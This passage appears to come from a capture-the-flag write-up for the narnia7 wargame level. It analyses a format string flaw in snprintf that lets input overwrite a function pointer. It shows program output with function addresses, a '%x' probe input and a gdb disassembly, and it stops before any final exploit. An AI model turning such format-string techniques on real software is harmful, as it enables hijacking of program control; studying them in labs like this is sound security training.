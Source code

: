 ``` c
        return 0;
}
```

It looks like the aim is to overwrite what `ptrf` points to. 

``` shell
narnia7@narnia:/narnia$ ./narnia7
Usage: ./narnia7 <buffer>
narnia7@narnia:/narnia$ ./narnia7 a
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd68c)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
```

Looking at the source code, the only argument we pass in is `format` - which gets passed in to `snprintf`. Let's see this in more details.

``` shell
narnia7@narnia:/narnia$ gdb -q narnia7
Reading symbols from narnia7...(no debugging symbols found)...done.
(gdb) break vuln
Breakpoint 1 at 0x80485d6
(gdb) r 'DDDD%x.%x.%x.%x.%x.%x.%x'
Starting program: /narnia/narnia7 'DDDD%x.%x.%x.%x.%x.%x.%x'

Breakpoint 1, 0x080485d6 in vuln ()
(gdb) set disassembly-flavor intel
(gdb) disass vuln
Dump of assembler code for function vuln:
   0x080485cd <+0>:     push   ebp
   0x080485ce <+1>:     mov    ebp,esp
   0x080485d0 <+3>:     sub    esp,0xa8
=> 0x080485d6 <+9>:     mov    DWORD PTR [esp+0x8],0x80
   0x080485de <+17>:    mov    DWORD PTR [esp+0x4],0x0
   0x080485e6 <+25>:    lea    eax,[ebp-0x88]
   0x080485ec <+31>:    mov    DWORD PTR [esp],eax
   0x080485ef <+34>:    call   0x80484b0 <memset@plt>
   0x080485f4 <+39>:    mov    DWORD PTR [esp+0x4],0x80486e0
   0x080485fc <+47>:    mov    DWORD PTR [esp],0x80487d0
   0x08048603 <+54>:    call   0x8048420 <printf@plt>
   0x08048608 <+59>:    mov    DWORD PTR [esp+0x4],0x8048706
   0x08048610 <+67>:    mov    DWORD PTR [esp],0x80487e5
   0x08048617 <+74>:    call   0x8048420 <printf@plt>
   0x0804861c <+79>:    mov    DWORD PTR [ebp-0x8c],0x80486e0
   0x08048626 <+89>:    mov    eax,DWORD PTR [ebp-0x8c]
   0x0804862c <+95>:    lea    edx,[ebp-0x8c]
   0x08048632 <+101>:   mov    DWORD PTR [esp+0x8],edx
   0x08048636 <+105>:   mov    DWORD PTR [esp+0x4],eax
   0x0804863a <+109>:   mov    DWORD PTR [esp],0x80487fd
   0x08048641 <+116>:   call   0x8048420 <printf@plt>
   0x08048646 <+121>:   mov    DWORD PTR [esp],0x8048818
   0x0804864d <+128>:   call   0x8048450 <puts@plt>
   0x08048652 <+133>:   mov    DWORD PTR [esp],0x2
   0x08048659 <+140>:   call   0x8048440 <sleep@plt>
   0x0804865e <+145>:   mov    DWORD PTR [ebp-0x8c],0x80486e0
   0x08048668 <+155>:   mov    eax,DWORD PTR [ebp+0x8]
   0x0804866b <+158>:   mov    DWORD PTR [esp+0x8],eax
   0x0804866f <+162>:   mov    DWORD PTR [esp+0x4],0x80
   0x08048677 <+170>:   lea    eax,[ebp-0x88]
   0x0804867d <+176>:   mov    DWORD PTR [esp],eax
   0x08048680 <+179>:   call   0x80484c0 <snprintf@plt>
```